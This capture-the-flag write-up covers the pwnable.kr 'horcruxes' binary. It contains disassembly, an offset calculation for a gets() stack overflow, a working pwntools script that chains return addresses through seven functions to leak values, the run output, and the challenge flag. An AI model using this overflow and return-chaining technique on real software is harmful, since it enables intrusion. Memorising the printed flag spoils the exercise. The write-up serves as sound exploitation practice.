

# horcruxes
`hor main`, `hor ropme`, `hor funcs ABCDEFG` are the assemblys (GDB disassemble). `hor symbols` is symbols in `horcruxes` binary.

Try out the binary

```sh
❯ nc pwnable.kr 10016
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:1
How many EXP did you earned? : 1
You'd better get more experience to kill Voldemort
```

## Analysis

Look at `hor main`.

`main` func calls `hint`, calls `init_ABCDEFG` to set random numbers for `a,b,c,d,e,f,g`, and essentially just calls `ropme` at the end.

> Keep in mind that the random numbers change every run.

`hint` is the useless beginning message btw.

```sh
pwndbg> disass hint
Dump of assembler code for function hint:
   0x08041866 <+0>:     push   ebp
   0x08041867 <+1>:     mov    ebp,esp
   0x08041869 <+3>:     push   ebx
   0x0804186a <+4>:     sub    esp,0x4
   0x0804186d <+7>:     call   0x80411a0 <__x86.get_pc_thunk.bx>  // ebx = next instruction
   0x08041872 <+12>:    add    ebx,0x271e                         // which is this line 0x08041872, then ebx + 0x271e.
   0x08041878 <+18>:    sub    esp,0xc
   0x0804187b <+21>:    lea    eax,[ebx-0x1dac]                   // first arg
   0x08041881 <+27>:    push   eax
   0x08041882 <+28>:    call   0x80410d0 <puts@plt>
   0x08041887 <+33>:    add    esp,0x10
   0x0804188a <+36>:    sub    esp,0xc
   0x0804188d <+39>:    lea    eax,[ebx-0x1d70]
   0x08041893 <+45>:    push   eax
   0x08041894 <+46>:    call   0x80410d0 <puts@plt>
   0x08041899 <+51>:    add    esp,0x10
   0x0804189c <+54>:    nop
   0x0804189d <+55>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080418a0 <+58>:    leave
   0x080418a1 <+59>:    ret
End of assembler dump.
pwndbg> p/x 0x08041872 + 0x271e
$3 = 0x8043f90
pwndbg> p/x 0x8043f90-0x1dac
$4 = 0x80421e4
pwndbg> x/s 0x80421e4
0x80421e4:      "Voldemort concealed his splitted soul inside 7 horcruxes."
pwndbg>
```


```sh
pwndbg> x/s $ebx - 0x1e3f
0x8042151:      "%d"
```
`ropme` does `scanf("%d", ebp-0x10)`. So a 4 bytes integer at ebp - 16. This is the `Select Menu:` input.

Then our input `ebp-0x10` gets compared to an array of hardcoded values, each leading into a single path if passed check *(`call` to function A/B/C/...)* then exits the program after *(the jump to `ropme+387`)*. Following this is the infamous `gets()` known for BOF vulns.

```nasm
0x0804152c <+33>:    add    esp,0x10
0x0804152f <+36>:    sub    esp,0x8
0x08041532 <+39>:    lea    eax,[ebp-0x10]
0x08041535 <+42>:    push   eax
0x08041536 <+43>:    lea    eax,[ebx-0x1e3f]
0x0804153c <+49>:    push   eax
0x0804153d <+50>:    call   0x8041130 <__isoc99_scanf@plt> // SCAN
0x08041542 <+55>:    add    esp,0x10
0x08041545 <+58>:    call   0x80410a0 <getchar@plt>
0x0804154a <+63>:    mov    edx,DWORD PTR [ebp-0x10]
0x0804154d <+66>:    mov    eax,DWORD PTR [ebx+0x7c]
0x08041553 <+72>:    cmp    edx,eax                    // COMPARE
0x08041555 <+74>:    jne    0x8041561 <ropme+86>
0x08041557 <+76>:    call   0x804129d <A>
0x0804155c <+81>:    jmp    0x804168e <ropme+387>
0x08041561 <+86>:    mov    edx,DWORD PTR [ebp-0x10]
0x08041564 <+89>:    mov    eax,DWORD PTR [ebx+0x80]
0x0804156a <+95>:    cmp    edx,eax                    // COMPARE
0x0804156c <+97>:    jne    0x8041578 <ropme+109>
0x0804156e <+99>:    call   0x80412cf <B>
0x08041573 <+104>:   jmp    0x804168e <ropme+387>
0x08041578 <+109>:   mov    edx,DWORD PTR [ebp-0x10]
0x0804157b <+112>:   mov    eax,DWORD PTR [ebx+0x84]
0x08041581 <+118>:   cmp    edx,eax                    // COMPARE
0x08041583 <+120>:   jne    0x804158f <ropme+132>
0x08041585 <+122>:   call   0x8041301 <C>
0x0804158a <+127>:   jmp    0x804168e <ropme+387>
0x0804158f <+132>:   mov    edx,DWORD PTR [ebp-0x10]
0x08041592 <+135>:   mov    eax,DWORD PTR [ebx+0x88]
0x08041598 <+141>:   cmp    edx,eax                    // COMPARE
0x0804159a <+143>:   jne    0x80415a6 <ropme+155>
0x0804159c <+145>:   call   0x8041333 <D>
0x080415a1 <+150>:   jmp    0x804168e <ropme+387>
0x080415a6 <+155>:   mov    edx,DWORD PTR [ebp-0x10]
0x080415a9 <+158>:   mov    eax,DWORD PTR [ebx+0x8c]
0x080415af <+164>:   cmp    edx,eax                    // COMPARE
0x080415b1 <+166>:   jne    0x80415bd <ropme+178>
0x080415b3 <+168>:   call   0x8041365 <E>
0x080415b8 <+173>:   jmp    0x804168e <ropme+387>
0x080415bd <+178>:   mov    edx,DWORD PTR [ebp-0x10]
0x080415c0 <+181>:   mov    eax,DWORD PTR [ebx+0x90]
0x080415c6 <+187>:   cmp    edx,eax                    // COMPARE
0x080415c8 <+189>:   jne    0x80415d4 <ropme+201>
0x080415ca <+191>:   call   0x8041397 <F>
0x080415cf <+196>:   jmp    0x804168e <ropme+387>
0x080415d4 <+201>:   mov    edx,DWORD PTR [ebp-0x10]
0x080415d7 <+204>:   mov    eax,DWORD PTR [ebx+0x94]
0x080415dd <+210>:   cmp    edx,eax                    // COMPARE
0x080415df <+212>:   jne    0x80415eb <ropme+224>
0x080415e1 <+214>:   call   0x80413c9 <G>
0x080415e6 <+219>:   jmp    0x804168e <ropme+387>
0x080415eb <+224>:   sub    esp,0xc
0x080415ee <+227>:   lea    eax,[ebx-0x1e3c]
0x080415f4 <+233>:   push   eax
0x080415f5 <+234>:   call   0x8041070 <printf@plt>
0x080415fa <+239>:   add    esp,0x10
0x080415fd <+242>:   sub    esp,0xc
0x08041600 <+245>:   lea    eax,[ebp-0x74]
0x08041603 <+248>:   push   eax
0x08041604 <+249>:   call   0x8041080 <gets@plt> ////////// GETS
0x08041609 <+254>:   add    esp,0x10
0x0804160c <+257>:   sub    esp,0xc
0x0804160f <+260>:   lea    eax,[ebp-0x74]
0x08041612 <+263>:   push   eax
0x08041613 <+264>:   call   0x8041140 <atoi@plt>
0x08041618 <+269>:   add    esp,0x10
0x0804161b <+272>:   mov    edx,DWORD PTR [ebx+0x98] // 08044028 B sum
0x08041621 <+278>:   cmp    eax,edx                    // COMPARE
0x08041623 <+280>:   jne    0x804167c <ropme+369> ///////////////////
```

If our `gets()` input passes the comparison check to some `sum`, flag gets printed.

```nasm
0x08041621 <+278>:   cmp    eax,edx                    // COMPARE
0x08041623 <+280>:   jne    0x804167c <ropme+369> ///////////////////
0x08041625 <+282>:   sub    esp,0x8
0x08041628 <+285>:   push   0x0
0x0804162a <+287>:   lea    eax,[ebx-0x1e1c]
0x08041630 <+293>:   push   eax
0x08041631 <+294>:   call   0x80410f0 <open@plt>
0x08041636 <+299>:   add    esp,0x10
0x08041639 <+302>:   mov    DWORD PTR [ebp-0xc],eax
0x0804163c <+305>:   sub    esp,0x4
0x0804163f <+308>:   push   0x64
0x08041641 <+310>:   lea    eax,[ebp-0x74]
0x08041644 <+313>:   push   eax
0x08041645 <+314>:   push   DWORD PTR [ebp-0xc]
0x08041648 <+317>:   call   0x8041060 <read@plt>
0x0804164d <+322>:   add    esp,0x10
0x08041650 <+325>:   mov    BYTE PTR [ebp+eax*1-0x74],0x0
0x08041655 <+330>:   sub    esp,0xc
0x08041658 <+333>:   lea    eax,[ebp-0x74]
0x0804165b <+336>:   push   eax
0x0804165c <+337>:   call   0x80410d0 <puts@plt>
0x08041661 <+342>:   add    esp,0x10
0x08041664 <+345>:   sub    esp,0xc
0x08041667 <+348>:   push   DWORD PTR [ebp-0xc]
0x0804166a <+351>:   call   0x8041150 <close@plt>
0x0804166f <+356>:   add    esp,0x10
0x08041672 <+359>:   sub    esp,0xc
0x08041675 <+362>:   push   0x0
0x08041677 <+364>:   call   0x80410e0 <exit@plt>

...
```

Observe the functions A/B/..

```nasm
Dump of assembler code for function A:
   0x0804129d <+0>:     push   ebp
   0x0804129e <+1>:     mov    ebp,esp
   0x080412a0 <+3>:     push   ebx
   0x080412a1 <+4>:     sub    esp,0x4
   0x080412a4 <+7>:     call   0x80418a2 <__x86.get_pc_thunk.ax> // set ebp
   0x080412a9 <+12>:    add    eax,0x2ce7 // GOT
   0x080412ae <+17>:    mov    edx,DWORD PTR [eax+0x7c] // bss a
   0x080412b4 <+23>:    sub    esp,0x8
   0x080412b7 <+26>:    push   edx
   0x080412b8 <+27>:    lea    edx,[eax-0x1f88]
   0x080412be <+33>:    push   edx
   0x080412bf <+34>:    mov    ebx,eax
   0x080412c1 <+36>:    call   0x8041070 <printf@plt>
   0x080412c6 <+41>:    add    esp,0x10
   0x080412c9 <+44>:    nop
   0x080412ca <+45>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080412cd <+48>:    leave
   0x080412ce <+49>:    ret
End of assembler dump.

Dump of assembler code for function B:
   0x080412cf <+0>:     push   ebp
   0x080412d0 <+1>:     mov    ebp,esp
   0x080412d2 <+3>:     push   ebx
   0x080412d3 <+4>:     sub    esp,0x4
   0x080412d6 <+7>:     call   0x80418a2 <__x86.get_pc_thunk.ax>
   0x080412db <+12>:    add    eax,0x2cb5
   0x080412e0 <+17>:    mov    edx,DWORD PTR [eax+0x80]
   0x080412e6 <+23>:    sub    esp,0x8
   0x080412e9 <+26>:    push   edx
   0x080412ea <+27>:    lea    edx,[eax-0x1f5c]
   0x080412f0 <+33>:    push   edx
   0x080412f1 <+34>:    mov    ebx,eax
   0x080412f3 <+36>:    call   0x8041070 <printf@plt>
   0x080412f8 <+41>:    add    esp,0x10
   0x080412fb <+44>:    nop
   0x080412fc <+45>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080412ff <+48>:    leave
   0x08041300 <+49>:    ret
End of assembler dump.
```

It's clear that all 7 uppercase functions basically just prints the lowercase .bss variables a,b,c,d,e,f,g. (filled with random numbers after `init_ABCDEFG`)

## Solution

The core idea is based on the fact that `ebp+8` holds the saved return address. Using `gets()` to buffer overflow, we can overwrite `gets()` return address to function `A` so it runs that instead to print out number `a`.

Function `A` has ESP pointing to next instruction (top of the stack), so we can alter return address of function `A` to function `B`, and function `B`'s ret addr to function `C`, and so forth.

```nasm
0x08041600 <+245>:   lea    eax,[ebp-0x74]
0x08041603 <+248>:   push   eax
0x08041604 <+249>:   call   0x8041080 <gets@plt>
```

`gets(ebp-0x74)`. So our input is in `ebp-0x74`, return address is in `ebp+0x4`.

$$
\text{0x4} - (-\text{0x74}) = \text{0x78} = \text{120 in decimal}
$$

120 bytes of padding + function A + ... + function G + function `ropme`.

Without `ropme` at the end, program will end. Running it again will generate different random numbers for a,b,c,d,e,f,g.

With the numbers we get from function A,B,C,D,E,F,G is summed up for the answer.

`solve.py`

```py
from pwn import *
import ctypes, re

p = remote('pwnable.kr',10016)
# context.log_level='debug'

'''
Arch:       i386-32-little
RELRO:      Full RELRO
Stack:      No canary found  # BOF
NX:         NX enabled
PIE:        No PIE (0x8040000) # Static address
Stripped:   No
'''
p.recvuntil(b'Select Menu:')
p.sendline(b'0')
p.recvuntil(b'How many EXP did you earned?')
p.sendline(b'A'*120+p32(0x0804129d)+p32(0x080412cf)+p32(0x08041301)+p32(0x08041333)+p32(0x08041365)+p32(0x08041397)+p32(0x080413c9)+p32(0x0804150b))
sums = 0

for _ in range(7):
  d = p.recvuntil(b'You found') and p.recvline()
  d = re.search(rb'\(EXP \+?(-?\d+)\)',d)[1]
  sums += int(d)
  print('GOT NUMBER', int(d))

total=ctypes.c_int32(sums).value
print('TOTAL',total)

p.sendlineafter(b'Select Menu:', b'0')
p.sendlineafter(b'How many EXP did you earned? :', b'%d' % total)
p.interactive()
```
```sh
❯ python3 solve.py
[+] Opening connection to pwnable.kr on port 10016: Done
GOT NUMBER 1742893448
GOT NUMBER -1728371276
GOT NUMBER 973162687
GOT NUMBER 1166199187
GOT NUMBER 1752032206
GOT NUMBER 1900483375
GOT NUMBER 367120564
TOTAL 1878552895
[*] Switching to interactive mode
 The_M4gic_sp3l1_is_Avada_Ked4vra

[*] Got EOF while reading in interactive
$  
```

Flag: `The_M4gic_sp3l1_is_Avada_Ked4vra`